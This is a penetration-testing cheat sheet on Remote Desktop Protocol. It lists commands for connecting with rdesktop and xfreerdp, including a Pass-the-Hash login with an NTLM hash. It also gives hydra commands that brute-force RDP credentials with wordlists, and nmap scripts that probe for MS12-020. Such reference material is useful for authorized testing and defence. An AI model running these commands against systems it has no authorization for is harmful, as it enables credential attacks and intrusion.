 ### **INTRODUCTION**

RDP (Remote Desktop Protocol) is a Microsoft-developed protocol that allows users to connect and interact with another computer remotely. It provides a graphical interface, transmitting the user's display and inputs securely over a network. RDP is commonly used for remote computer management, IT support, and accessing work applications from afar. It's primarily used with Windows but is available for other operating systems as well.

### **CONNECTING TO RDP**

| Command | Description |
| --- | --- |
| `rdesktop -u [USERNAME] -p [PASSWORD] [TARGET-IP]` | Starts a basic RDP connection, enabling desktop access with login credentials. |
| `xfreerdp /v:[TARGET-IP] /u:'USERNAME' /p:'PASSWORD' /drive:[NAME],[PATH]` | Establishes an RDP session with resource redirection, allowing local drives to be accessible during the remote session. Useful for transferring files between the host and the client. |
| `xfreerdp /u:'USERNAME' /d:[DOMAIN] /pth:[NTLM] /v:[SERVER].[DOMAIN].local` | Connects to an RDP session using Pass-the-Hash authentication. This method uses NTLM hashes instead of plain text passwords. |

??? info "Tips & tricks"

    You can log into the RDP server without a password to gather information, such as the Windows version, from the login page.

### **SCENARIOS**

| Command | Scenario |
| --- | --- |
| `xfreerdp /u:[USERNAME] /p:[PASSWORD] /v:[TARGET-IP] /sound:sys:alsa` | Connect to a FreeRDP server and activate audio output redirection using sys:alsa device |
| `xfreerdp /v:[TARGET-IP] /u:[USERNAME] /p:[PASSWORD] /dynamic-resolution` | Connect to a FreeRDP server with dynamic resolution |
| `xfreerdp /v:[TARGET-IP] /u:[USERNAME] /p:[PASSWORD] +clipboard` | Connect to a FreeRDP server with clipboard redirection |
| `xfreerdp /v:[TARGET-IP] /u:[USERNAME] /p:[PASSWORD] /cert:ignore` | Connect to a FreeRDP server ignoring any certificate checks |
| `xfreerdp /v:[TARGET-IP] /u:[USERNAME] /p:[PASSWORD] /drive:path/to/directory,share_name` | Connect to a FreeRDP server with a shared directory |

### **BRUTE-FORCING RDP CREDENTIALS**

| Scenario | Command |
| --- | --- |
| Unknown User | `hydra -L user.txt -p "Password" -f rdp://[TARGET-IP]` |
| Unknown Password | `hydra -l user -P /opt/rockyou.txt -f rdp://[TARGET-IP]` |
| Unknown User and Password | `hydra -L user.txt -P /opt/rockyou.txt -f rdp://[TARGET-IP]` |

### **NMAP NSE SCRIPTS**

| Command | Description |
| --- | --- |
| `ls -la /usr/share/nmap/scripts \| grep "rdp"` | Lists available Nmap scripts that target RDP services, ideal for identifying potential security enhancements or vulnerabilities. |
| `nmap --script rdp-enum-encryption -p 3389 [IP_ADDRESS]` | Enumerates encryption methods supported by the RDP server, providing insights into the security level of the RDP connections. |
| `nmap --script rdp-vuln-ms12-020 -p 3389 [IP_ADDRESS]` | Checks for the notorious MS12-020 vulnerability, which if present, could allow unauthorized remote code execution on the RDP server. |